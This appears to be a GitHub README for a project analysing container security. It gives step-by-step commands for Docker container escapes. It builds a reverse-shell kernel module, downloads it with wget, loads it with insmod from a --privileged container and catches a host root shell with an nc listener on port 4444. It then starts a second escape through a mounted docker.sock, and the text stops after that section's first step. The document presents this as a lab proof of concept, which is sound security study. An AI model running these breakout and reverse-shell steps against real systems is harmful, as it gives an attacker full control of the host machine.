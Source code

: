 # Security Analysis of Containerizd Applications

> A security analysis conducted on containerised applications in virtualised environments.

## Introduction

Containerization is defined as a form of operating system virtualization, through which applications are run in isolated user spaces called containers, all using the same shared operating system (OS).The concept of Containerization is used in many fields such as DevOps, Microservice Architecture, Web servers and Database Sharding. This makes security a major concern.

This aim for this project is to conduct a Security Analysis of Containerized Applications in Virtualized Environments to check for vulnerabilities in the host Operating System by using several methods such as inspecting the Network bridge between the Virtualized and Host Operating System, Figuring Kernel Level Virtualization Errors, Creating a Malicious Application and Test a proof of concept, if the Host OS can be accessed from a container that is running in a virtualized environment.

 > Containerization Tool used for this Analysis is Docker

## Attack Vectors

### Modifying Kernel Space using --privileged flag

> This attack is to simulate Container Breakout and the process through which an attacker who has gained access of a Container running on a System can get access to a system can load a kernel module on to the Host Kernel Space through the Container to get a reverse shell session of the Host file System mounted on the root directory.

**Steps**

1. Change the directory to *reverseshell* and run the command *make* to build the Kernel File.
  ```bash
  cd reverseshell
  make
  ```
2. Start a Python Server in the *reverseshell* directory using the command:
  ```bash
  python3 -m http.server
  ```
3.  On a New Terminal Tab Run a Base container (here alpine) with a privileged flag and start a shell session in it using the command:
  ```bash
  docker run --rm --privileged -it alpine sh
  ```
4. Fetch the Kernel File from the server started in Step 2 using the command 
  ```bash
  wget http://172.17.0.1:8000/reverseshell_module.ko
  ```
5. Give Executable Permission to the Kernel File inside the Container using the command 
  ```bash
  chmod +x reverseshell_module.ko
  ```
6. On a New Terminal Start a Port listener on Port number 4444 as specified in the Kernel Module C Program using the command: 
  ```bash
  nc -nlvp 4444
  ```
7. Inside the Container shell of Step 3 write the Kernel Module into the Kernel Space using the command:

   ```bash
   insmod reverseshell_module.ko
   ```
**Result**

> Upon following the above a Shell session of the Host File System mounted on the root directory is received on the Port listener. This even provides privileges to access, read and modify files through the reverse shell session. This can be classified as a high level vulnerability.

---

### Container Breakout through Docker Socket

> This attack is to simulate how container breakout can be performed using docker.sock mount through which an attacker that has access to the Container can start another Container mounted on the host Root directory to access the Host file system.

**Step**

1. Start a Docker Container mounted on the Docker socket file at `/var/run/docker.sock` using the command:

   ```bash
    docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock alpine sh
   ```
